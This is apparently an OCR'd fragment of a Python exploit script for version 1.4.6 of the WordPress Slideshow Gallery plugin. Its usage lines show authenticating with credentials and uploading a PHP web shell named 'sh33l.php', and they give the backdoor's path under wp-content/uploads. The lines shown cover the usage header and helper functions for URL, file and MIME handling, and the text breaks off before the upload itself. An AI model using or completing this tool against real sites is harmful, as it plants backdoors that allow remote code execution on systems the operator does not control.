     # python wp_gallery_slideshow_146_suv.py -t http[s]://localhost -u user -p pwd -f sh33l.php
    # python wp_gallery_slideshow_146_suv.py -t http[s]://localhost/wordpress -u user -p pwd -f sh33l.php
    # python wp_gallery_slideshow_146_suv.py -t http[s]://localhost:80|443 -u user -p pwd -f sh33l.php
    #
    # Backdoor Location:
    #
    # http://localhost/wp-content/uploads/slideshow-gallery/sh33l.php
    #
    # Tested on Wordpress 3.6, 3.7, 3.8, 3.9, 4.0
    #

    # http connection
    import urllib, httplib2, sys, mimetypes
    # Args management
    import optparse
    # Error management
    import socket, httplib, sys
    # file management
    import os, os.path

    # Check url
    def checkurl(url):
        if url[:8] != "https://" and url[:7] != "http://":
            print('[X] You must insert http:// or https:// procotol')
            sys.exit(1)
        else:
            return url

    # Check if file exists and has readable
    def checkfile(file):
        if not os.path.isfile(file) and not os.access(file, os.R_OK):
            print '[X] '+file+' file is missing or not readable'
            sys.exit(1)
        else:
            return file
    # Get file's mimetype
    def get_content_type(filename):
        return mimetypes.guess_type(filename)[0] or 'application/octet-stream'
